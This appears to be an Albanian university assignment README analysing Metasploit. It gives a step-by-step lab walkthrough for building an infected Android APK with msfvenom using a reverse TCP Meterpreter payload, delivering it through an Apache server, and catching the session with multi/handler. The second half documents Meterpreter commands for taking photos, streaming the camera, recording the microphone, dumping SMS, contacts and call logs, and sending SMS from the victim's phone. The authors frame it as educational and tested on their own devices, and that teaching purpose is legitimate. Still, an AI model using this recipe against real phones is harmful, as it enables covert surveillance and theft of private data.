# Analiza e veglës Metasploit

| [Fatbardh Kadriu](https://github.com/FatbardhKadriu) | [Arbena Musa](https://github.com/ArbenaMusa) | [Albana Hysenaj](https://github.com/albanah) |
| ---------------------------------------------------- | -------------------------------------------- | -------------------------------------------- |
|                                                      |                                              |                                              |

Ky punim është kryer në kuadër të detyrës së dytë në lëndën "Siguria e Informacionit" dhe shembujt e testuar janë përdorur vetëm për qëllime edukative. Zhvillimi i shembujve të tillë pa dijeninë dhe miratimin e personave të përfshirë si target konsiderohet jolegale.

## Teknologjitë dhe pajisjet e përdorura

<ul>
<li>Pajisja kompjuterike (sistemi sulmues) - sistemi operativ Kali Linux.</li>
<li>Pajisja mobile (sistemi targetuar) - sistemi operativ Android, versioni 10.</li>
<li>Metasploit Framework dhe MSFVenom.</li>
</ul>

Për shkak që në shembullin e zhvilluar sistemi sulmues dhe sistemi i targetuar duhet të jenë të kyçur në të njëjtin rrjet (të jenë në të njëjtin LAN) dhe përdoren IP-të private të tyre, nuk ka qenë i mundur përdorimi i makinave virtuale apo emulatorëve dhe janë përdorur pajisjet tona fizike duke mos cënuar pajisjet e personave të tjerë.

## Çfarë është Metasploit

Metasploit është vegël e cila përdoret për hetimin e dobësive sistematike në rrjet dhe në servera nga hakerët etikë. Gjetja e dobësive përmes kësaj vegle zhvillohet lehtësisht në shumicën e sistemeve operative, pasi një numër i madh i tyre përkrahen. Përdorimi i Metasploit nënkupton përdorimin e një kodi të gatshëm ose të personalizuar dhe futjen e tij në rrjet për të gjetur dobësitë ekzistuese.

Gjatë zhvillimit të shembujve tonë ne kemi përdorur konsolën MSFconsole duke dhënë komanda direkte për sistemin. Msfconsole mund të shfrytëzohet për të bërë gjithçka, duke përfshirë nisjen e një exploit, ngarkimin e moduleve ndihmëse, kryerjen e regjistrimit, krijimin e dëgjuesve, etj.

## Shembujt e testuar

### Exploit

Exploit (shfrytëzim, përdorim) ekzekuton një sekuencë të komandave për të targetuar një dobësi specifike që është gjetur në një sistem ose aplikacion. Ky modul përfiton nga dobësia për të fituar çasje në sistemin e targetuar.
Hapi i parë është kërkimi për exploit adekuat për platformën android dhe përgjedhja e tij në mesin e shumë mundësive që ofrohen.

```
msf6 > search type:exploit platform:android

Matching Modules
================

   #   Name                                                      Disclosure Date  Rank       Check  Description
   -   ----                                                      ---------------  ----       -----  -----------
   ........................................................................................................................
   10  exploit/multi/handler                                                      manual     No     Generic Payload Handler
   ........................................................................................................................
```

| Karakteristika  | Shpjegimi                                                                                                                                                                   |
| --------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Name            | Emri i modulit.                                                                                                                                                             |
| Disclosure Date | Data e zbulimit.                                                                                                                                                            |
| Rank            | Tregon se sa është exploit i besueshëm dhe se sa janë gjasat që të ketë ndikim negativ tek sistemi i targetuar. Exploits janë të renditura nga ai me rëndësinë më të madhe. |
| Check           | Kontrollon nëse sistemi i targetuar është i cenueshëm nga një shfrytëzim i veçantë, në vend që ta shfrytëzoj atë direkt.                                                    |
| Description     | Përfshin më shumë detaje në lidhje me cenueshmërinë e veçantë që moduli shfrytëzon.                                                                                         |

Moduli i zgjedhur për exploit, `multi/handler` mundëson vendosjen e payloads (ngarkesave) të pavarura. Fajlli i infektuar që do të hapet nga ana e sistemit të targetuar do të vendos komunimin me sulmuesin. Është e nevojshme që të ekzistoj një kontrollues i cili do të pres për lidhjen e vendosur kur komunikimi drejtohet nga sistemi i kompromentuar te sulmuesi.

### Payload

Payload (ngarkesa) është shell code që ekzekutohet pasi moduli exploit ta ketë kompromentuar një sistem. Na mundëson të lidhemi me sistemin e targetuar dhe ta përdorim atë si të tonën, pasi të kemi shfrytëzuar një cenueshmëri në sistemin e saj. Ajo na mundëson të definojmë se si duam të lidhemi me sistemin e targetuar dhe çfarë duam të bëjmë me të në vazhdim. Metasploit ka shumë lloje të payloads që mund të përdoren për sistemin e targetuar.

Për të parë payloads që janë në dispozicion dhe për të listuar ata adekuat për platformën android kërkojmë:

```
msf6 > search type:payload platform:android

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   .............................................................................................................................
   2  payload/android/meterpreter/reverse_tcp                     normal  No     Android Meterpreter, Android Reverse TCP Stager
   .............................................................................................................................
```

Payload `android/meterpreter/reverse_tcp` përdoret për sistemin android. Meterpreter është shkurtesë për meta interpreter që është një payload i cili mundëson vendosjen e komunikimit mes sulmuesit dhe targetit si dhe shkembimin e të dhënave prej sistemit të komprementuar tek sulmuesi përmes komandave që ipen nga sulmuesi në njërën anë të soketit. Reverse_tcp nënkupton që përdoret meterpreter si reverse shell që është një shell në të cilin sistemi i targetuar, komunikon përsëri mbrapsht me sistemin sulmues. Sistemi sulmues cakton një port për dëgjim në të cilin pret lidhjen me targetin dhe përmes përdorimit të të cilit realizohet ekzekutimi i komandave pasuese.



_Fig. 1: Ilustrimi se si funksionon reverse shell_

Android Meterpreter mundëson marrjen e informatave nga folderët e sistemit, përgjimin e thirrjeve telefonike, leximin dhe dërgimin e mesazheve, leximin e regjistrit të telefonatave, përdorimin e kamerave të sistemit, etj.

### Krijimi i android aplikacionit të infektuar

Për të krijuar një APk (Android Package) fajll të infektuar përdorim `msfvenom` e cila është një instancë e Metasploit, funsionaliteti i së cilës kombinon krijimin dhe enkodimin e ngarkesave për përdorime të ndryshme. Msfvenom përdoret për gjenerimin e ngarkesës sipas kërkesës dhe në varësi të disponueshmërisë së llojeve në Metasploit. Për të gjeneruar një android/meterpreter/reverse_tcp payload që do të instalohet në sistemin e targetuar, përmes msfvenom shkruajmë komandën:

```
$ msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.12 LPORT=4444 R > /root/Desktop/OurApp.apk
```

| Shkurtesa                  | Shpjegimi                                                              |
| -------------------------- | ---------------------------------------------------------------------- |
| -p                         | Specifikon llojin e payload që përdoret.                               |
| LHOST IP                   | Adresa e sistemit i cila do të përdoret për të pritur lidhjen prapa.   |
| LPORT                      | Porti i sistemit që do të presë për komunikim me sistemin e targetuar. |
| R                          | Raw format (format i papërpunuar).                                     |
| > /root/Desktop/OurApp.apk | Lokacioni ku ruhet APK aplikacioni i krijuar.                          |


_Gif. 1: Krijimi i apk fajllit_

### Kalimi i aplikacionit të infektuar tek sistemi targetuar

Për shkak që shumica e platformave online e detektojnë një fajll i cili ka përmajtje kërcënuese për sigurinë, kalimin e fajllit të infektuar nga sulmuesi tek sistemi e targetuar e bëjmë përmes web serverit të apache në linux. Sulmuesi e vendos fajllin e infetuar në lokacionin `/var/www/html/` dhe sistemi e targetuar duhet u çasur në browser në IP adresën e sulmuesit mund të gjej aplikacionin dhe ta instaloj. Komanda për ta startuar apache serverin është:

```
$ service apache2 start
// Komanda për të shikuar statusin e apache serverit
$ service apache2 status
```

|  |  |
| ------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------- |
| _Gif. 2: Shkarkimi i aplikacionit_                                                               | _Gif. 3: Hapja e aplikacionit pas shkarkimit_                                                               |

### Shfrytëzimi i sistemit të targetuar

Shembulli jonë e përdorë modulin `exploit/multi/handler` duke specifikuar payload, hostin i cili pret kthimin e lidhjes prapa dhe portin në të cilin dëgjohet lidhja. Komanda exploit fillon kërkimin e dobësive dhe në momentin që vendoset lidhja me aplikacionin e infektuar hapet meterpreter dhe nga aty e tutje mund të manipulohet sistemi i targetuar që tani e tutje mund ta quajmë si sistem i kompromentuar.

```
msf6 > use exploit/multi/handler

msf6 > set PAYLOAD android/meterpreter/reverse_tcp

msf6 > set LHOST 192.168.0.12

msf6 > set LPORT 4444

msf6 > exploit
```



_Gif. 4: Përdorimi i modulit exploit_

## Komandat e Meterpreter

### Komandat kryesore

```
Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background

```

#### background dhe bg

Background e kalon lidhjen (sesionin) e krijuar nga payload me sistemin e kompromentuar aktuale në prapavijë dhe mundëson që të ekzekutohen komanda të tjera në msfconsole. bg është shkurtesa për background. Për t'iu rikthyer një sesion që është krijuar më herët në msfconsole ekzekutohen komandat si në vijim:

- `sessions` - shfaq listën e të gjithë sesioneve aktivë,
- `sessions -i <numri i session>` - e merr nga prapavija sesionin e caktuar në bazë të numrit të specifikuar dhe kalon në meterpreter shell për atë sesion.



_Gif. 5: Përdorimi i komandës `background`_

### Komandat e sistemit të fajllave

```
Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cd            Change directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    pwd           Print working directory
    search        Search for files
```

#### cd dhe lcd

`cd` (change directory) mundëson navigimin në folderët e ruajtuar në sistemin e kompromentuar (kalimin nga një folder në tjetrin), ndërsa lcd mundëson navigimin në folderët e ruajtur në sistemin sulmues.

#### ls dhe lls

`ls` (list) liston të gjithë fajllat dhe folderët që ndodhen brenda folderit aktual tek sistemi i kompromentuar, ndërsa lls ka të njëjtin funksion tek sistemi sulmues.

#### pwd dhe lpwd

`pwd` (print working directory) tregon shtegun aktual në sistemin e kompromentuar, ndërsa lpwd tregon shtegun aktual në sistemin e sulmuesit.


_Gif. 6: Përdorimi i komandave `cd`, `lcd`, `ls`, `lls`, `pwd` dhe `lpwd`_

#### search

`search` kërkon fajlla të caktuar në tërë memorien e sistemit të kompromentuar përderisa nuk ceket ndonjë pjesë specifike brenda folderëve.

- `-d` specifikon folderin në të cilin kërkohet,
- `-f` pattern (mostra) i cili kërkohet,
- `-r` kërkimi rekurziv nëpër folderët mbrenda folderit të cekur.

Meqë kërkimi i fajllave në tërë hapsirën memorike të sistemit të kompromentuar është i kushtueshëm në kohë dhe përdoruesi i saj mund ta vërejë mbingarkesën, sygjerohet që kur kërkohet të specifikohet një pjesë e caktuar e memories për të reduktuar kohën e kërkimit.



_Gif. 7: Përdorimi i komandës `search`_

### Komandat e rrjetit

```
Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    ifconfig      Display interfaces
    ipconfig      Display interfaces
```

#### ifconfig dhe ipconfig

`ifconfig` dhe `ipconfig` shfaqin ndërfaqen e rrjetit në të cilin është e kyçur sistemi sulmues dhe sistemi i kompromentuar.



_Gif. 8: Përdorimi i komandave `ifconfig` dhe `ipconfig`_

### Komandat e sistemit

```
Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    getuid        Get the user that the server is running as
    localtime     Displays the target system local date and time
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OS
```

#### getuid

`getuid` tregon id e përdoruesit i cili është duke u përdorur në sistemin sulmues.

#### localtime

`localtime` tregon kohën lokale të sistemit të kompromentuar.

#### shell

`shell` hap një shell standard për sistemin e kompromentuar.

#### sysinfo

`sysinfo` shfaq të dhënat e sistemit duke përfshirë pikën e dëgjimit tek sulmuesi, sistemin operativ të sistemit të kompromentuar dhe llojin e meterpreter.



_Gif. 9: Përdorimi i komandave `getuid`, `localtime`, `shell` dhe `sysinfo`_

### Komandat e kamerës

```
Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam
```

#### record_mic

`record_mic` inçizon zërin duke përdorur mikrofonin e sistemit të kompromentuar dhe duke e ruajtur në audio fajll me prapashtesën .wav, në sistemin sulmuese. Kjo komand mund të përdoret për përgjimin e zhurmave të ambientit në kohë reale.

- `-d` numri i sekondave sa zgjat inçizimi (paraprakisht është i caktuar si 1),
- `-f` lokacioni ku ruhet audio fajlli,
- `-p` luan automatikisht audio fajllin e inçizuar (paraprakisht është e caktuar si true).



_Gif. 10: Përdorimi i komandës `record_mic`_

#### webcam_list

`webcam_list` liston të gjitha kamerat që i posedon sistemi i kompromentuar dhe poashtu i identifikon ato me numra përkatës.

#### webcam_snap

`webcam_snap` shkrep një foto nga sistemi i kompromentuar, varësisht se cila kamerë e saj specifikohet.

- `-i` specifikon numrin identifikues të kamerës e cila përdoret.



_Gif. 11: Përdorimi i komandave `webcam_list` dhe `webcam_snap` duke specifikuar kamerën e pasme_



_Gif. 12: Përdorimi i komandës `webcam_snap` duke specifikuar kamerën e përparme_

#### webcam_stream

`webcam_stream` përdorë kamerën e sistemit të kompromentuar për të pasur qasje të vazhdueshme në kohë reale të pamjes nga kamera (live streaming).

- `-i` specifikon numrin identifikues të kamerës e cila përdoret.



_Gif. 13: Përdorimi i komandës `webcam_stream` duke specifikuar kamerën e pasme_



_Gif. 14: Përdorimi i komandës `webcam_stream` duke specifikuar kamerën e përparme_

### Komandat e androidit

```
Android Commands
================

    Command           Description
    -------           -----------
    check_root        Check if device is rooted
    dump_calllog      Get call log
    dump_contacts     Get contacts list
    dump_sms          Get sms messages
    send_sms          Sends SMS from target session
    set_audio_mode    Set Ringer Mode
```

#### check_root

`check_root` tregon se a është androidi rooted (procesi i lejimit të sistemeve që ekzekutohen në android mobile SO të kenë çasje të privilegjuar, e njohur si root access).

#### dump_calllog

`dump_calllog` nxjerr listën e të gjitha telefonatave të zhvilluara nga sistemi i kompromentuar dhe e ruan atë në një tekst fajll duke specifikuar detajet e secilës thirrje.



_Gif. 15: Përdorimi i komandave `check_root` dhe `dumo_calllog`_

#### dump_contacts

`dump_contacts` nxjerr listën e të gjitha kontakteve të regjistruara në sistemin e kompromentuar dhe e ruan atë në një tekst fajll duke specifikuar detajet e secilit kontakt.

#### dump_sms

`dump_sms` nxjerr listë e sms-ëve të shkëmbyer nga sistemi i kompromentuar dhe e ruan atë në një tekst fajll duke specifikuar detajet e secilit sms.



_Gif. 16: Përdorimi i komandave `dump_contacts` dhe `dump_sms`_

#### send_sms

`send_sms` dërgon sms nga sistemi i kompromentuar tek një destinacion i caktuar me tekstin që specifikohet.

- `-d` specifikon numrin telefonik tek i cili do të dërgohet mesazhi,
- `-t` specifikon përmbajtjen tekstuale të mesazhit që do të dërgohet.

|  |  |
| ----------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------- |
| _Gif. 17: Përdorimi i komandës `send_sms`_                                          | _Gif. 18: Vëzhgimi i dërgimit të mesazhit në android_                                             |

#### set_audio_mode

`set_audio_mode` ndërron modin e audios së sistemit.

- `-m` specifikon modin në të cilin vendoset sistemi:

  - 0 - silent (pa zë),
  - 1 - normal,
  - 2 - high (me zë të lartë).

|  |  |
| ------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------- |
| _Gif. 19: Përdorimi i komandës `set_audio_mode`_                                     | _Gif. 20: Vëzhgimi i ndërrimit të audio modit në android_                                         |

### Komandat për kontrollimin e aplikacioneve

```
Application Controller Commands
===============================

    Command        Description
    -------        -----------
    app_list       Liston t
    app_run        Start Main Activty for package name
    app_uninstall  Request to uninstall application
```

#### app_list

`app_list` printon listën e të gjitha aplikacioneve të instaluara në sistemin e kompromentuar dhe të dhënat e tyre.

#### app_run

`app_run` hap një aplikacion të caktuar që është i instaluar tek sistemi i kompromentuar varësisht se cilin e zgjedhim.

|  |  |
| -------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| _Gif. 21: Përdorimi i komandës `app_run`_                                                                | _Gif. 22: Vëzhgimi i hapjes së aplikacionit në android_                                                                    |

#### app_unisntall

`app_uninstall` shfaq dialogun për të fshirë një aplikacion të sistemit.

|  |  |
| ---------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------- |
| _Gif. 23: Përdorimi i komandës `app_uninstall`_                                                                  | _Gif. 24: Vëzhgimi i shfaqjes së kërkesës për fshirjen e aplikacionit në android_                                                                    |
